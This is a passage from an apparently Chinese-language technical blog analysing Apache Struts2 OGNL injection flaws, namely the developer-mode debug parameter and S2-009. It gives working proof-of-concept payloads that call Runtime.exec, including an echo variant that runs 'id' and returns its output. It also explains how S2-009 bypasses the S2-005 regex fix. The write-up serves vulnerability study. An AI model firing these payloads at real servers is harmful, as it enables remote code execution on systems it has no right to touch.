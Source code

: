 ![image-20200509204915751](/images/talk_about_struts2/image-20200509204915751.png)

当开启开发者模式时，传入`debug=command&expression=xxxx`，即可执行OGNL表达式

### POC

```java
?debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,@java.lang.Runtime@getRuntime().exec('open /System/Applications/Calculator.app'))
// 回显POC
(%23_memberAccess.allowStaticMethodAccess=true,%23ret=@java.lang.Runtime@getRuntime().exec('id'),%23isr=new java.io.InputStreamReader(%23ret.getInputStream()),%23br=new java.io.BufferedReader(%23isr),%23res=new char[2000],%23br.read(%23res),new java.lang.String(%23res))
```

## 6. [S2-009](https://cwiki.apache.org/confluence/display/WW/S2-009)

影响范围：2.0.0 - 2.3.1.1

针对S2-005的修复，对参数做`[a-zA-Z0-9\\.\\]\\[\\(\\)_'\\s]+`正则检查，这里规避了参数名中出现`#`、unicode编码等

S2-009是对S2-005的绕过，这里用的就是`Ognl.setValue`函数的另一种用法`a[(1)(2)]`，还有一个比较巧妙的是，前面的几个漏洞利用，我们都是直接在`(1)`写上要执行的OGNL表达式，而S2-009则通过context里的内容来进行一个中转，将OGNL表达式放到`key=value`的value的位置，再由`a[(key)(2)]`的方式去执行value的内容。

```java
OgnlContext context = new OgnlContext();
context.put("test","@java.lang.Runtime@getRuntime().exec(\'open /System/Applications/Calculator.app/\')"); // 假设context存在执行系统命令的OGNL表达式test
Ognl.setValue("a[(test)(bla)]",context,"");// 以a[(test)(bla)],执行test所代表的OGNL表达式
```

上面代码中的假设，我们可以通过传入`?param=xxx`的方式带入
